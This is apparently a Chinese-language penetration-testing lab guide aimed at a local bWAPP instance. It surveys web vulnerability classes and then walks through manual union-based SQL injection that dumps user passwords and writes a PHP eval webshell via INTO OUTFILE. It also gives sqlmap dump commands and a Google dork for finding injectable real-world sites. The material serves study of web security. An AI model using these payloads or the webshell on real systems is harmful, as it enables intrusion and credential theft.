










- ### 工具及环境
  - [PHP](https://windows.php.net/downloads/releases/archives/)
  - [MySQL](https://www.mirrorservice.org/sites/ftp.mysql.com/Downloads/)
  - [bWAPP](http://www.itsecgames.com/)
  - [SqlMap](http://sqlmap.org/)
  - [BurpSuite](https://portswigger.net/burp)
  - [Fiddler](https://www.telerik.com/download/fiddler)
  - [中国菜刀](https://www.freebuf.com/articles/system/93323.html)

- ### Part I
  #### 0x00.弱口令
    > 通常认为容易被别人（他们有可能对你很了解）猜测到或被破解工具破解的口令均为弱口令。
  
    - [撞库](https://www.aqniu.com/learn/35241.html)
    - [爆破](https://www.freebuf.com/sectool/159488.html)
    - 网络设置：更改本地代理至127.0.0.1:8080
    - Intruder模块
    
    - Payloads
    
    - Attack
    

  #### 0x01.XSS && CSRF
    > 跨站脚本是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户在观看网页时就会受到影响。
  
    - [[本地]反射型](http://192.168.36.129:3000/xss_get.php)
    - [[本地]存储型](http://192.168.36.129:3000/xss_stored_1.php)
    - [[本地]CSRF](http://192.168.36.129:3000/xss_stored_1.php)
    ``` html
      
    ```

  #### 0x02.代码注入
    > 代码注入是一种肇因于处理非法数据的计算机臭虫应用。代码注入可被攻击者用来导入代码到某特定的计算机程序，以改变程序的运行进程或目的。
  
    - [[本地]PHP Code Injection](http://192.168.36.129:3000/phpi.php?message=test)

  #### 0x03.命令行注入
    > 利用可以调用系统命令的web应用，通过构造特殊命令字符串的方式，把恶意代码输入一个编辑域(例如缺乏有效验证的输入框)来改变网页动态生成的内容，最终实现本应在服务端才能工作的系统命令。
  
    - [[本地]OS Command Injection](http://192.168.36.129:3000/commandi.php)

  #### 0x04.会话修改/劫持
    > 会话劫持（Session hijacking），这是一种通过获取用户Session ID后，使用该Session ID登录目标账号的攻击方法，此时攻击者实际上是使用了目标账户的有效Session。会话劫持的第一步是取得一个合法的会话标识来伪装成合法用户，因此需要保证会话标识不被泄漏。
  
    - [[本地]Session Mgmt](http://192.168.36.129:3000/smgmt_admin_portal.php)

  #### 0x05.SQL注入
    > 所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令。
  
    - [[本地]SQL Injection (GET/Select)](http://192.168.36.129:3000/sqli_2.php?movie=6)
    - `辽宁 inurl:?.php?id=`
    - [网络安全法第二十七条、六十三条](http://nic.hrbeu.edu.cn/_upload/article/files/4d/a2/543a91024b739b31ebe631355019/3d713f50-e1a0-45ec-83b1-46629106262d.pdf)

  #### 0x06.上传
    > 文件上传漏洞是指用户上传了一个可执行的脚本文件，并通过此脚本文件获得了执行服务器端命令的能力。
  
    - [[本地]Unrestricted File Upload](http://192.168.36.129:3000/unrestricted_file_upload.php)
    - 规则：
    
    - 改包：利用Windows文件名解析技巧
    

  ### 0x07.抓包改包

  #### 0x08.任意文件浏览/目录遍历
    > 目录遍历漏洞在国内外有许多不同的叫法，也可以叫做信息泄露漏洞、非授权文件包含漏洞等。目录遍历是针对Windows IIS和Apache的一种常见攻击方法，它可能让攻击者访问受限制的目录，通过执行cmd.exe /c命令来提取目录信息，或者在Web服务器的根目录以外执行命令。
  
    - [[本地]Directory Traversal - Directories](http://192.168.36.129:3000/directory_traversal_2.php?directory=documents)

  #### 0x09.代码审计
    > 代码审计(Code audit)是一种以发现程序错误，安全漏洞和违反程序规范为目标的源代码分析。它是防御性编程范式的一部分。

  #### 0x10.文件接口目录权限[重要]
    - 页面iframe授权及验证
    - 接口敏感数据授权、过滤及验证

  #### 0x11.Kali
    - [关于](https://zh.wikipedia.org/zh-hans/Kali_Linux)
    - [BackTrack](https://zh.wikipedia.org/wiki/BackTrack)
    

  #### 0x12.GoogleHack
    - [GoogleHacking](https://www.exploit-db.com/google-hacking-database)
    - [ZoomEye](https://zoomeye.org)
    - [Shodan](https://www.shodan.io)

  #### 0x13.Exploit-DB
    - [首页](https://www.exploit-db.com/)

  #### 0x14.WooYun
    - [[科学上网]关于](https://web.archive.org/web/20160618033639/http://www.wooyun.org/about)
    - [[科学上网]缓存页](https://web.archive.org/web/20160618033658/http://www.wooyun.org/index.php)
    - [剑心](http://www.anzerclub.com/yuedu/renwu/245.html)
    

  #### 0x16.文档
    - [OWASP Top10](https://www.owasp.org/images/5/58/OWASP_Top_10_2017_%E4%B8%AD%E6%96%87%E7%89%88v1.2.pdf)
---
- ### Part II
  #### 0x00: 手工注入
  ##### 判断是否存在注入
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=1 页面正常
  ```
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 页面异常
  ```
  ##### 暴露基本信息
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 order by 8 错误
  ```
  >Tips: [ORDER BY {col_name | expr | position} [ASC | DESC], …],这里传入的是position排序，根据某个potion排序，当超过表字段数量时就会报错。

  
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,2,3,4,5,6,7
  ```
  >Tips：http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2返回空，最后返回union select 1,2,3,4,5,6,7一条记录,页面显示的数字对应数据库所在字段的position

  ##### 查看目标基本信息
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,group_concat(database(),0x20,user(),0x20,@@version,0x20,@@basedir,0x20,@@datadir,0x20,current_user),3,4,5,6,7
  ```
  >Tips：0x20作为单字节表示，可以用于字符型变量的赋值，用于char时，其代表ascii码值0x20，即字符空格’ ‘，这里用于区分database()等字段回显信息。

  ##### 获取当前数据库所有表
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,group_concat(TABLE_NAME),3,4,5,6,7 from information_schema.tables where table_schema=database()
  ```
  >Tips：MySQL所有数据库表都会存储于information_schema库中的tables表中。table_schema为数据库名称，TABLE_NAME为对应数据库表名称。基于Web的数据库管理应用

  ``` bash
  -- 查看数据库所有表 
  select TABLE_NAME from information_schema.tables
  ```
  ##### 获取对应表的所有列
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,2,3,group_concat(column_name),5,6,7 from information_schema.columns where table_schema=database() and table_name="users"
  ```
  > Tips：MySQL所有数据库列都会存储于information_schemacolumnstable_schema为数据库名称，table_name为对应数据库表名称。
  ``` bash
  -- 查看数据库所有列
  select column_name from information_schema.columns
  ```

  ##### 获取对应列数据
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 1,group_concat(id,login,password,email),3,4,5,6,7 from users
  ```

  ##### 写入poc脚本文件
  ``` bash
  http://192.168.36.129:3000/sqli_2.php?movie=6 and 1=2 union select 0x20,0x20,0x20,0x20,0x20,0x20,'<?php @eval($_POST[cmd]);?>' into outfile 'C:/Software/bWAPP/bWAPP/poc.php'
  ```
  >Tips: into outfile通过SQL命令向服务器对应路径写入文件内容，通常用来写入webshell到Web服务目录。

  ##### 管理webshell及提权
  
  #### 0x01：SqlMap自动注入

  ##### 是否存在注入
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6
  ```

  ##### 获取数据库
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" --current-db
  ```

  ##### 获取数据库表
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -D bwapp --tables
  ```

  ##### 获取数据库表列
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -T users --columns
  ```

  ##### 获取数据库表数据
  ``` bash
  sqlmap -u http://192.168.36.129:3000/sqli_2.php?movie=6 --cookie="security_level=0; PHPSESSID=uovrdlujopr4jbd44p4afjavv2" -T users --columns --dump
  ```
  
  #### SqlMap参数参考
  ```
  Options:
    -h, --help            Show basic help message and exit
    -hh                   Show advanced help message and exit
    --version             Show program's version number and exit
    -v VERBOSE            Verbosity level: 0-6 (default 1)

  Target:
    At least one of these options has to be provided to define the
    target(s)

    -u URL, --url=URL   Target URL (e.g. "http://www.site.com/vuln.php?id=1")
    -g GOOGLEDORK       Process Google dork results as target URLs

  Request:
    These options can be used to specify how to connect to the target URL

    --data=DATA         Data string to be sent through POST (e.g. "id=1")
    --cookie=COOKIE     HTTP Cookie header value (e.g. "PHPSESSID=a8d127e..")
    --random-agent      Use randomly selected HTTP User-Agent header value
    --proxy=PROXY       Use a proxy to connect to the target URL
    --tor               Use Tor anonymity network
    --check-tor         Check to see if Tor is used properly

  Injection:
    These options can be used to specify which parameters to test for,
    provide custom injection payloads and optional tampering scripts

    -p TESTPARAMETER    Testable parameter(s)
    --dbms=DBMS         Force back-end DBMS to provided value

  Detection:
    These options can be used to customize the detection phase

    --level=LEVEL       Level of tests to perform (1-5, default 1)
    --risk=RISK         Risk of tests to perform (1-3, default 1)

  Techniques:
    These options can be used to tweak testing of specific SQL injection
    techniques

    --technique=TECH..  SQL injection techniques to use (default "BEUSTQ")

  Enumeration:
    These options can be used to enumerate the back-end database
    management system information, structure and data contained in the
    tables. Moreover you can run your own SQL statements

    -a, --all           Retrieve everything
    -b, --banner        Retrieve DBMS banner
    --current-user      Retrieve DBMS current user
    --current-db        Retrieve DBMS current database
    --passwords         Enumerate DBMS users password hashes
    --tables            Enumerate DBMS database tables
    --columns           Enumerate DBMS database table columns
    --schema            Enumerate DBMS schema
    --dump              Dump DBMS database table entries
    --dump-all          Dump all DBMS databases tables entries
    -D DB               DBMS database to enumerate
    -T TBL              DBMS database table(s) to enumerate
    -C COL              DBMS database table column(s) to enumerate

  Operating system access:
    These options can be used to access the back-end database management
    system underlying operating system

    --os-shell          Prompt for an interactive operating system shell
    --os-pwn            Prompt for an OOB shell, Meterpreter or VNC

  General:
    These options can be used to set some general working parameters

    --batch             Never ask for user input, use the default behavior
    --flush-session     Flush session files for current target

  Miscellaneous:
    --sqlmap-shell      Prompt for an interactive sqlmap shell
    --wizard            Simple wizard interface for beginner users
  ```
---
- ### Part III
  当目标站点不能找到可利用的渗透方式是，可以尝试C段和旁注以及探测目标服务器端口服务，利用所在服务漏洞或者操作系统层漏洞进行测试。